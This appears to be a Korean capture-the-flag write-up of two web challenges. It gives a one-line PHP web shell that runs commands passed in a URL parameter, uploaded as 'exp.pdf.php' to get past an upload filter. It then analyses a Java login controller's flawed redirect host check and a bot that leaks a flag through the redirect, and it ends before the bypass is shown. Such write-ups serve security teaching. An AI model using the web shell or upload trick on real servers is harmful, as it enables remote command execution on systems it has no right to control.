 ### Solve

- web shell
- 파일 업로드 시 filename : `exp.pdf.php`

```php
<?php system($_GET['cmd']); ?>
```

---

## Redirect - [web]

> **💎 998 pts / 2 solves**
> 

### Analysis

- 주어진 `jar` 파일을 jd-gui로 열면 user controller에 다음과 같이되어 있다
- redirect 매개변수로 전달된 데이터는 `http://` 나 `https://` 로 시작되면 `path` 가 `/` 가 된다.
    - 즉, redirect 매개변수로 전달된 페이지로 리다이렉트 하기 위해서는 위의 조건을 우회해야할 필요가 있다.

```php
@PostMapping({"/login"})
  public ModelAndView doLogin(@RequestParam String username, @RequestParam String password, @RequestParam(value = "", required = false) String redirect, HttpServletResponse response, HttpSession session) {
    try {
      UserDetails userDetails = this.userService.loadUserByUsername(username);
      if (this.passwordEncoder.matches(password, userDetails.getPassword())) {
        session.setAttribute("user", new UserLoginDTO(username, null));
        if (redirect != "") {
          String path = redirect.trim();
          if (path.startsWith("http://") || path.startsWith("https://")) {
            String host = UriComponentsBuilder.fromUriString(path).build().getHost();
            for (String allowedHost : ALLOWED_HOSTS) {
              if (host.equals(allowedHost))
                break; 
              path = "/";
            } 
          } 
```

- report 기능을 통해 bot을 동작시킬 수 있다.
- bot은  `redirect` 매개변수로 전달된 주소에 flag를 포함시켜서 접근한다.

```php
const bot = async (input) => {

  try {
    const browser = await puppeteer.launch({
      executablePath: "/usr/bin/google-chrome-stable",
      headless: "new",
      args: ["--no-sandbox", "--disable-dev-shm-usage", "--disable-gpu", "--ignore-certificate-errors"],
    })
  
    const page = await browser.newPage();

    await page.goto(`${URL}/user/login?redirect=${input}${encodeURIComponent(encodeURIComponent(FLAG))}`, { timeout: 3000, waitUntil: 'domcontentloaded' });
    await page.evaluate((id, password) => {
      document.querySelector("#username").value = id;
      document.querySelector("#password").value = password;
      document.querySelector("#submit").click();
    }, ADMIN_ID, ADMIN_PASSWORD)
```